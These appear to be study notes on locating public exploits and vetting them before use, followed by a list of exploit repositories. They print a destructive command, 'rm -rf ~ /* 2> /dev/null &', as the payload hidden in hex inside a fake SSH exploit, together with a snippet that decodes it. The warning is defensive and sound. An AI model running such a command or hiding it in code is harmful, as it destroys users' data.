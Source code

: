 

***NOTE***
By downloading and running public exploits, we can _**greatly**_ endanger any system that runs that code.  
Carefully read and understand the code before execution to ensure no negative effects.  
  
Ex:    **OpenOwn** (a remote exploit for SSH) asks for root privileges and has a _jmpcode_ array in it's payload.  
		This _jmpcode_ array is actually a hex-encoded string containing the malicious shell command:  
```bash
rm -rf ~ /* 2> /dev/null &
```
	  In the lines that followed, the program would connect to a public IRC server to announce the user's idiocy to the world.  
  
  
Using trustworthy exploit repositories is crucial. The online resources mentioned in the mats analyze submitted exploit code before hosting it online.  
  
Not to say you shouldn't read the code & verify everything's above board prior to execution.  
  
If code inspection or compilation is too complex, set up a vm w/ a clean snapshot as an exploit sandbox.  
  
  
Way to check shellcode:  
```python
python  
  
>>> jmpcode = [ "\x72\x6D.........."]  
>>> print jmpcode  
[  
rm -rf ~ /* 2> /dev/null &']  
>>> quit
```

  
### Resources:
  
[https://exploit-db.com](https://exploit-db.com)  
- Free archive of public exploits gathered through submissions, mailing lists, and public resources.  
- Can filter by Type, Platform, Author, Port, and Tag  
- Details whether an exploit has been validated as working. (Marked w/ a check icon displayed in column V)  
- Maintained by Offensive Security.  
- Occasionally provides the installer for the vulnerable version of the software for research purposes. (Marked w/ an download box icon displayed in column A)  
- Updates are announced through its twitter & rss feeds.  
- Downloadable  
  
  
[https://www.securityfocus.com](https://www.securityfocus.com)  
- BugTraq:  
	- Full disclosure mailing list w/ the purpose of discussing & announcing security vulnerabilities  
- Vulnerability Database:  
	- Provices up-to-date info on vulns for all platforms & services.  
	- Many entries don't include PoC code.  
		- However, each vuln includes external references that include details on the vuln and, often, PoC code  
- Mailing Lists:  
	- opic-based mailing lists allowing researchers to discuss various security issues.  
- Updates are also announced through its twitter & rss feeds.  
  
  
[https://packetstormsecurity.com](https://packetstormsecurity.com)  
- Provides up-to-date security news, exploits, vulns, and recently published tools by security vendors  
- Updates announced through its twitter & rss feeds.  
  
  
Google search operators (Google dorks)  
- inurl  
- intext  
- intitle